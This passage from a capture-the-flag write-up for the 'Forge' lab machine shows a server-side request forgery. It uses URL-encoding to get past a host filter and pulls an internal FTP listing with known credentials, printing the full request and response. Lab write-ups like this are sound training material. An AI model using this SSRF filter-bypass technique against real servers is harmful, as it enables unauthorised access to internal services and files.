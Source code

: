 ```http
            </div>
        </div>
    </center>
    <br>
    <br>
</body>
</html>
```

Identical functionality to `http://forge.htb/upload`.

---

## Server Side Request Forgery to Foothold

### Accessing Internal FTP Server

Since `http://admin.forge.htb/upload?u=$URL` will fetch a file from $URL where $URL can be ftp, ftps, http, or https and FTP credentials are known, it is possible to exploit the server-side request forgery vulnerability to query the FTP server.

On `http://forge.htb/upload`, upload with the remote URL `http://admin%2Eforge%2Ehtb/upload?u=ftp://user:heightofsecurity123!@admin%2Eforge%2Ehtb`.

```http
POST /upload HTTP/1.1
Host: forge.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 128
Origin: http://forge.htb
Connection: close
Referer: http://forge.htb/upload
Upgrade-Insecure-Requests: 1

url=http%3A%2F%2Fadmin%252Eforge%252Ehtb/upload%3Fu%3Dftp%3A%2F%2Fuser%3Aheightofsecurity123%21@admin%252Eforge%252Ehtb&remote=1
```

Follow the link.

```http
HTTP/1.1 200 OK
Date: Tue, 14 Sep 2021 18:15:20 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Disposition: inline; filename=YGKOCtXSPxrP7XUcFa9a
Content-Length: 126
Last-Modified: Tue, 14 Sep 2021 18:15:14 GMT
Cache-Control: no-cache
Connection: close
Content-Type: image/jpg

drwxr-xr-x    3 1000     1000         4096 Aug 04 19:23 snap
-rw-r-----    1 0        1000           33 Sep 14 04:23 user.txt
```
